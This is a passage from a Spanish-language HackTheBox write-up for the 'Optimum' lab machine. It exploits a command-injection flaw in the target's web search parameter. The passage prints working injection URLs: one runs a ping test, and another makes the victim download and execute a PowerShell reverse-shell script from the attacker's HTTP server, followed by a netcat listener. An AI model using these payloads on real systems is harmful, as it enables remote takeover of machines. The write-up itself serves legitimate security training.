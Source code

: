 Nos genera una url con la que podremos ejecutar los comandos, pero no funciona... al menos los típicos comandos como dir, ls , net user... etc

Asique intento probar algo para ver si realmente funciona, la idea es hacer un ping desde la máquina víctima a mi máquina a través del cmd.

```bash
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.3.}
```

Para comprobar el funcionamiento abro wireshark y filtro el tráfico para ver solo paquetes ICMP.

> ¡RECORDAR QUE DEBEMOS CAPTURAR EL TRÁFICO EN LA INTERFAZ tun0 (que es la de la VPN de HTB)!

![](/assets/images/HTB/Optimum-HackTheBox/wireshark.png)

Como vemos funciona, tenemos ping.

Ahora debemos intentar entablar conexión... 

Buscando en internet encuentro una reverse shell para Windows 'Oneline'.

[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

![](/assets/images/HTB/Optimum-HackTheBox/rev.png)


En mi caso la guardo bajo el nombre de reverse.ps1

Ejecutamos un servidor python 

```python
python3 -m http.server 8080
```

Y añadimos el siguiente comando a la url del navegador para pasar el archivo reverse.ps1 a la máquina víctima y ejecutarlo.

```bash
 http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.3/reverse.ps1').} 
 ```

Abrimos un oyente netcat en el puerto que hemos configurado en el archivo reverse.ps1 (en mi caso 4444).

![](/assets/images/HTB/Optimum-HackTheBox/rev2.png)
